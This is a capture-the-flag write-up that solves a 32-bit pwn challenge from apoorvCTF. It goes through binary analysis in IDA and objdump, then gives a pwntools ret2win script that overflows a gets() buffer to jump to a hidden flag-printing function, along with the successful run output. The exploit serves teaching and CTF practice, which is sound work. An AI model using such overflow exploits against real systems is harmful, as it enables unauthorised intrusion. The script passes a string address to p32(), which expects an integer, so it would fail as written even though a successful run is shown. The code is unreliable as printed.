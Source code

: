 ```yaml
---
date: 2025-03-07 14:20:45 +02:00
categories: [apoorvCTF, Pwn]
tags: [Pwn, CTF, apoorvCTF]
---
```


This is a writeup of the Pwn challenge Kogarashi Café - The First Visit by [apoorvCTF](https://apoorvctf.iiitkottayam.ac.in/) 
#### Points: 50
# Premise
A quiet café, a simple question. The barista waits, but your order may mean more than it seems.

`nc chals1.apoorvctf.xyz 3001`
## Challenge files:

[first_visit](https://github.com/CSYClubIIITK/CTF-Writeups/blob/main/ApoorvCTF-25-Writeups/BinExp/Kogarashi%20Caf%C3%A9%20-%20The%20First%20Visit/files/first_visit)

# Observations
Looking at the challenge file, we have a single executable, we can check it with a few methods such as file and checksec

![file](/assets/images/apoorvCTF/cafe1/file.png)

![checksec](/assets/images/apoorvCTF/cafe1/checksec.png)

From this, we see that the file we're working with is a 32 bit executable with some settings that make our lives as attackers easier, such as the binary not being stripped, and PIE not being enabled.

Our next step here is to see if we can check what language the program was compiled in, in my case, I do this by using [Detect it Easy (DIE)](https://github.com/horsicq/Detect-It-Easy)

![DIE](/assets/images/apoorvCTF/cafe1/DIE.png)

As we can see, the program looks like it was made in C/C++. Our next step from here is to load the program into a disassembler, in my case I'm using [IDA Free](https://hex-rays.com/ida-free)

At first upon opening the program, we see the following functions that look interesting
![IDA functions](/assets/images/apoorvCTF/cafe1/IDA_1.png)

We can start off by checking main()
![main functions](/assets/images/apoorvCTF/cafe1/IDA_main.png)

As we can see, theres only a call to order_coffee in it, so we proceed to there
![order_coffee function](/assets/images/apoorvCTF/cafe1/IDA_order_coffee.png)

This function has an interesting component, `gets()`, which is known to be vulnerable, since it doesnt account for the number of characters read by it. We also see the buffer labled as v1 here having a size of 40 characters. These two will be important later.

We have the final function that we want to examine, brew_coffee, we dont see any calls to this function from the normal execution flow of the program, but we can check it anyway:
![brew_coffee function](/assets/images/apoorvCTF/cafe1/IDA_brew_coffee.png)

As is very apparent, brew_coffee is of great interest to us, since it reads and prints the flag. However, as previously stated, we see no calls to this function, but we can exploit the `gets()` call from the previous function.

First though, we want to actually know where we're going, so we want to have the address of brew_coffee. We can find this either by using tools such as gdb or objdump.
Using `objdump -d first_visit` we get a lot of output, but for our purposes we mainly want to focus on the first bits of brew_coffee:
```bash
 0804856b <brew_coffee>:
 804856b:	55                   	push   %ebp
 804856c:	89 e5                	mov    %esp,%ebp
 804856e:	81 ec 98 00 00 00    	sub    $0x98,%esp
 8048574:	83 ec 08             	sub    $0x8,%esp
 8048577:	68 00 87 04 08       	push   $0x8048700
 804857c:	68 02 87 04 08       	push   $0x8048702
 8048581:	e8 ca fe ff ff       	call   8048450 <fopen@plt>
```
Here, we've found our sought address, `0x804856b`, if we can override the buffer and EBP, we can add this at the end as our new return address.

# Solution
With all of our findings, I've developed the following python script, using [pwntools](https://github.com/Gallopsled/pwntools)

```python
from pwn import *

#Exploit target
target = remote('chals1.apoorvctf.xyz', 3001)

#We know we're waiting for exactly two lines of dialogue, once we recieve these, we can send the payload
print(target.recvline())
print(target.recvline())

offset = 44
#Address of brew_coffee() function: 0x0804856b
win_address = "0x0804856b"

payload = b"A"*offset
payload += p32(win_address)

target.sendline(payload)
target.interactive()
```

Running this script gives us the following output:
```bash
b'Welcome to Kogarashi Caf\xc3\xa9.\n'
b"Barista: 'What will you have?'\n"
[*] Switching to interactive mode
Barista: 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAk\x85\x04\x08... interesting choice.'
Brewing...
Barista: 'A rare choice... here is your secret blend.'
apoorvctf{c0ffee_buff3r_sp1ll}

[*] Got EOF while reading in interactive
$
```

Which gives us the flag:
> apoorvctf{c0ffee_buff3r_sp1ll}
{: .prompt-tip }


# Tools and sources used:
- [IDA Free](https://hex-rays.com/ida-free)
- [pwntools](https://github.com/Gallopsled/pwntools)
- [Detect It Easy](https://github.com/horsicq/Detect-It-Easy)
- [checksec](https://github.com/slimm609/checksec)
